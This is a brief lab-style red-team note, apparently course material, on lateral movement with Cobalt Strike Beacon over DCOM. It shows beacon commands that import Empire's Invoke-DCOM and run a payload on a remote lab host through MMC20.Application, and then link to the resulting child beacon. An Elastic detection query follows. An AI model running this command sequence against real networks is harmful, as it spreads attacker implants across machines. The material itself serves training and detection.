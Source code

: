 A proprietary Microsoft technology used for communication between software components and networked computers.

### Beacon Usage w/ DCOM

Beacon has no built-in capabilities to interact over Distributed Component Object Model (DCOM), so we much use an external command such as [<mark style="color:yellow;">`Invoke-DCOM`</mark>](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1).

Later, we'll see how this can be integrated within the <mark style="color:yellow;">`jump`</mark> command.

```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName web.dev.cyberbotic.io -Method MMC20.Application -Command C:\Windows\smb_x64.exe
Completed

beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.30
```

**DCOM is more complicated to detect, since each "Method" works in a different way. In the particular case of&#x20;**<mark style="color:yellow;">**`MMC20.Application`**</mark>**, the spawned process will be a child of&#x20;**<mark style="color:yellow;">**`mmc.exe`**</mark>**:**

```
event.category: process and event.type : start and process.parent.name: mmc.exe
```

<figure><img src="../.gitbook/assets/image (299).png" alt=""><figcaption></figcaption></figure>

Processes started via DCOM may also be observed where the parent is <mark style="color:yellow;">`svchost.exe`</mark> with command line arguments of <mark style="color:yellow;">`-k DcomLaunch`</mark>.
